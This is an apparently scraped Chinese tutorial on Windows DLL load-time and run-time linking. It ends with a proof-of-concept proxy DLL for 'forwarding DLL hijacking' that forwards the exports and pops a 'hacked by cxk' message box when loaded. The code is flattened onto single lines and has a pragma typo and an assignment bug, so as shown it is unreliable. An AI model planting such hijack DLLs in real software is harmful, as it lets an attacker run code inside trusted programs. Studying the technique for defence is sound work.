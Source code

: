   

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172515.png)

### c++加载时动态链接

  *   *   *   *   *   *   *   *   *   * 

    
    
    #include "iostream"using namespace std;#pragma comment(lib,"C:\\Users\\bz\\source\\repos\\DLL_demo\\x64\\Release\\DLL_demo.lib")extern "C" __declspec(dllimport) int add(int a, int b);extern "C" __declspec(dllimport) void message();int main() {    cout << add(1, 2) << endl;    message();  
    }

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172516.png)

### c++运行时动态链接

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include <iostream>#include <Windows.h>using namespace std;//定义一个函数类，typedef int(*addfun)(int a, int b);typedef void(*messagefun)();  
    int main(){   //指定加载dll库    HMODULE hdll = LoadLibrary(LPCWSTR(L"DLL_demo.dll"));    if (hdll != NULL)    {   //获取函数位置        addfun add = (addfun)GetProcAddress(hdll, "add");        messagefun message = (messagefun)GetProcAddress(hdll, "message");        if (add != NULL)        {            cout << add(1, 2) << endl;           // system("pause");  
            }        if (add = NULL) {            printf("获取函数失败");           // system("pause");  
            }        if (message!= NULL)         {            message();        }        FreeLibrary(hdll);    }    else     {        printf("获取句柄失败");        system("pause");    }}

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172518.png)

##  **0x05 转发式DLL劫持**

简而言之，不影响程序 本身功能的同时执行恶意dll

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210825172519.png)

举个栗子：

将原来的dll名写在转发方法里，然后将生成的dll文件重命名为劫持的dll文件名：

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    #include "pch.h"#include "windows.h"//开始转发，将函数方法转发//导出函数#pragma comment(linker,"/EXPORT:add=testdll.add,@1")#pragma commnet(linker,"/EXPORT:message=testdll.message,@2")//入口函数BOOL WINAPI DllMain(HMODULE hModule, DWORD dwReason, PVOID pvReserved){    if (dwReason == DLL_PROCESS_ATTACH)    {        DisableThreadLibraryCalls(hModule);        MessageBox(NULL, L"hacked by cxk", L"hi", MB_OK);    }    else if (dwReason == DLL_PROCESS_DETACH)    {  
        }  
        return TRUE;}
